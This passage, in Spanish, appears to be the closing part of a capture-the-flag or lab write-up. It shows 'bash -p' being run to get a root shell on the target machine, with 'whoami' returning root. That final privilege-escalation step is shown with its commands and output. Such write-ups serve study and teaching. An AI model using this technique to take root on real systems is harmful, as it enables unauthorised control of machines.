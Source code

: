 Ahora, al hacer un `bash -p`, podemos observar que se obtuvo el root y de esta manera se logra vulnerar la máquina.
```bash
bash -p  
bash-5.2 # whoami  
root
```